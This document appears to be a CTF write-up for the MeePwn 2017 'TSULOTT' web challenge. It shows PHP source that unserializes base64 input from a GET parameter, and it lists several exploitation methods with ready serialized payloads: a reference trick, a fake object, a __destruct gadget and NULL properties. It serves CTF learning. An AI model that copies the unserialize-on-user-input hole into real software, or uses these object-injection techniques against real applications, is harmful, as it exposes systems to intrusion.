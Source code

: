 #### First thing first: this is the php code, read it in raw



<?php
class Object 
{ 
  var $jackpot;
  var $enter; 
}
?>


<?php

include('secret.php');

if(isset($_GET['input']))  
{
  $obj = unserialize(base64_decode($_GET['input']));
  if($obj)
  {
    $obj->jackpot = rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99); 
    if($obj->enter === $obj->jackpot)
    {
      echo "<center><strong><font color='white'>CONGRATULATION! You Won JACKPOT PriZe !!! </font></strong></center>". "<br><center><strong><font color='white' size='20'>".$obj->jackpot."</font></strong></center>";
      echo "<br><center><strong><font color='green' size='25'>".$flag."</font></strong></center><br>";
      echo "<centerx><imgxx src=' ' /></center>";

    }
    else
    {
      echo "<br><br><center><strong><font color='white'>Wrong! True Six Numbers Are: </font></strong></center>". "<br><center><strong><font color='white' size='25'>".$obj->jackpot."</font></strong></center><br>";
    }
  }
  else
  {
    echo "<center><strong><font color='white'>- Something wrong, do not hack us please! -</font></strong></center>";
  }
}
else
{
  echo "";
}
?>
<center>
<br><h2><font color='yellow' size=8>-- TSU</font><font color='red' size=8>LOTT --</font></h2>
<p><p><font color='white'>Input your code to win jackpot!</font><p>
<form>
          <input type="text" name="input" /><p><p>
          <button type="submit" name="btn-submit" value="go">send</button>
</form>
</center>
<?php
if (isset($_GET['gen_code']) && !empty($_GET['gen_code']))
{
  $temp = new Object;
  $temp->enter=$_GET['gen_code'];
  $code=base64_encode(serialize($temp)); 
  echo '<center><font color=\'white\'>Here is your code, please use it to Lott: <strong>'.$code.'</strong></font></center>';
}
?>
<center>
<font color='white'>-----------------------------------------------------------------------------------------------------------------------------</font>
<h3><font color='white'>Take code</font></h3><p>
<p><font color='white'>Pick your six numbers (Ex: 15 02 94 11 88 76)</font><p>
<form>
      <input type="text" name="gen_code" maxlength="17" /><p><p>
      <button type="submit" name="btn-submit" value="go">send</button>
</form>
</center>
<!-- debug: GET is_debug=1 -->
<?php
if(isset($_GET['is_debug']) && $_GET['is_debug']==='1')
{
   show_source(__FILE__);
}
?>

### The important part is unserialize(base64_decode($_GET['input']));

### In The HTML, There will be 2 input: one is to serialize and the other is to unserilize it

- At first I was think about pointing the $obj->enter become $obj->jackpot, but it doesn't really work

- The second method would be create another serialize object outside **(fake object)** and make $obj->enter == $obj->jackpot


<?php
class Objects {
	var $jackpot;
	var $enter;

	function __construct() {
		$this->enter = &$this->jackpot;
	}
}
$input = new Objects();
echo base64_encode(serialize($input));
?>

### Some other way:
1. elegura.wolfe (english) (fake object way): https://advancedpersistentjest.com/2017/07/17/writeup-tsulott-meepwn/
2. clayday (english) (reference way): http://blog.clayday.id/tsulott-meepwn-ctf-2017-writeup/
3. foo-manroot (english) (dumping data via magic _destruct, but i think the author is wrong, its still compare null): https://foomanroot.github.io/post/ctf/meepwn/write-up/2017/09/28/meepwn-web.html
4. bl4ckpr15m (english) (compare null): https://github.com/bl4ckpr15m/CTF-Writeups/blob/master/2017/MeePwn/web/TSULOTT/writeup%20%5Bby%20Jorge%20Chato%5D.md 

#### 1.Fake object:
- An “object” class is also defined in the source code:

class Object 
{ 
 var $jackpot;
 var $enter; 
}

- The path to explotiation lies in creating a fake object, called something else (not “Object”, which seems to cause PHP to use it’s own class definition), which passes the “$obj->enter === $obj->jackpot” check, but doesn’t allow $obj->jackpot to be overwritten. Helpfully, PHP allows us to define “protected” properties, which cannot be modified, as per below:

class Test{
 protected $_data = array(
 "jackpot" => "12345"
 );
 var $enter;
}

#### 3. Cool way:

- $ php -a
- Interactive mode enabled

- php > class Exploit
- php > {
- php {	function __destruct ()
- php {	{
- php {		var_dump ($flag);
- php {	}
- php { }
- php > echo base64_encode (serialize (new Exploit ()));
- PHP Notice:  Undefined variable: flag in php shell code on line 5
- NULL
- Tzo3OiJFeHBsb2l0IjowOnt9

- When we request /?input=Tzo3OiJFeHBsb2l0IjowOnt9, we get the flag:


#### 4.Just create a object, NULL is cool:
Our only chance is generate a completely random object and encoded with base64.
- [https://www.tools4noobs.com/online_php_functions/base64_encode/](https://www.tools4noobs.com/online_php_functions/base64_encode/)
- Generate a random object, in this case an object Test who have 2 attributes (jackpot and enter) both of them NULL
    ```json
        INPUT: O:4:"Test":2:{s:7:"jackpot";N;s:5:"enter";N;}
    ```
    ```json
        OUTPUT: "Tzo0OiJUZXN0IjoyOntzOjc6ImphY2twb3QiO047czo1OiJlbnRlciI7Tjt9"
    ```


